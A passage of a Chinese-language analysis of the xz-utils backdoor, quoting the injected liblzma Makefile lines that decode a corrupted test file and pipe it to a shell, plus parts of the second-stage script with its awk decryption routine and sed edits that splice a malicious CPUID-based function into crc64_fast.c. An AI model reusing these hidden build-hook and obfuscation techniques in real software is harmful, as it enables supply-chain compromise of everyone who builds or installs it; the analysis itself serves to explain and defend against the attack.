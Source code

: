 ```
    fi
......
```  
  
此步骤会对当前环境进行一些检测，是否支持glibc的IFUNC特性，以及构建的可执行文件是否是x86_64架构的。除此之外，还会检测源代码项目中是否存在/debian/rules文件或$RPM_ARCH环境变量是否设置为x86_64，只有通过检测，才会修改/src/liblzma/Makefile文件的内容。所以，包含后门的xz-utils项目只能在特定环境下，才能成功构建。  
  
向/src/liblzma/Makefile文件中写入内容的关键部分如下所示。  
```
am__test = bad-3-corrupt_lzma2.xz
am__test_dir=$(top_srcdir)/tests/files/$(am__test)
am__strip_prefix = tr "\t \-_" " \t_\-"
am__dist_setup = $(am__strip_prefix) | xz -d 2>/dev/null | $(SHELL)
sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1

# 实际执行的命令
sed rpath ./tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d 2>/dev/null
```  
  
这部分内容用于在通过make命令构建整个项目时，第二次执行good-large_compressed.sh脚本。第二次执行的good-large_compressed.sh脚本中的主要代码如下所示。  
```
......
# 第一次执行此脚本时，是在源代码根目录下执行的。
if test -f config.status; then
    ......
# 第二次执行此脚本时，是从/src/liblzma目录下的Makefile中执行的，所以当前目录为/src/liblzma。
elif (test -f .libs/liblzma_la-crc64_fast.o) && (test -f .libs/liblzma_la-crc32_fast.o); then
    ......
    # 从good-large_compressed.lzma文件中提取liblzma_la-crc64-fast.o文件，存放在/src/liblzma目录下。
    xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<4096;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
    ......
    cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
    V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_X86_CLMUL) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
    eval $yosA
    # 将crc64_fast.c文件crc64_resolve()函数中调用的is_arch_extension_supported()函数替换为_is_arch_extension_supported()函数
    if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
        # 在crc64_fast.c文件include "crc_x86_clmul.h"语句下添加一段代码
        sed "/include \"crc_x86_clmul.h\"/a \\$V" | \
        sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc64_fast.c\"" 2> /dev/null | \
        # 
        $CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2> /dev/null; then
        ......
fi
```  
  